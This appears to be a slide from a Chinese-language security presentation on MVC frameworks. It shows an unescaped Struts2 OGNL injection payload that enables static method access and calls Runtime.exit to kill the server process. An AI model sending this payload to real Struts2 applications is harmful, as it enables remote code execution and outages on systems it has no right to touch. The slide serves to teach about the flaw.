

# MVC安全
Struts2漏洞：

转义后是这样:

?('#_memberAccess['allowStaticMethodAccess']')(meh)=true
&(aaa)(('#context['xwork.MethodAccessor.denyMethodExec
ution']=#foo')(#foo=new%20java.lang.Boolean("false")))&(as
df)(('#rt.exit(1)')(#rt=@java.lang.Runtime@getRuntime()))=1